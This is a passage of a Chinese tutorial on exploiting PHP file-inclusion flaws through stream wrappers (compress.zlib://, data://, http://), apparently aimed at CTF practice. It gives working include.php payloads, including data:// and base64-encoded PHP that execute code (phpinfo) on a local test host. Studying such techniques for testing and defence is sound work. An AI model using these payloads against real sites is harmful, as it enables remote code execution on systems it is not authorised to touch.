      压缩 phpinfo.txt 为 phpinfo.gz 并上传（同样支持任意后缀名）

     ```http
     http://127.0.0.1/include.php?file=compress.zlib://E:\phpStudy\PHPTutorial\WWW\phpinfo.gz
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBu)

- **参考**：[http://php.net/manual/zh/wrappers.compression.php](https://link.segmentfault.com/?enc=zJUyCYTLNfleI%2B8YOt%2BrYg%3D%3D.esu6o2ZLvqoGBGlX1twgTBF71uamzhsFwEf74uEXrPFdCYCQwtm0Jlv2Sl25FZlL21NhgufVnc5pp1NlAnnNoQ%3D%3D)

# data:// 协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：自`PHP>=5.2.0`起，可以使用`data://`数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。

- **用法**：

  ```awk
  data://text/plain,
  data://text/plain;base64,
  ```

- **示例**：

  1. `data://text/plain,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBB)

  2. `data://text/plain;base64,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
     ```

     ![图片描述](https://segmentfault.com/img/bVbrQBD)

# http:// & https://协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：常规 URL 形式，允许通过 `HTTP 1.0` 的 GET方法，以只读访问文件或资源。CTF中通常用于远程包含。

- **用法**：
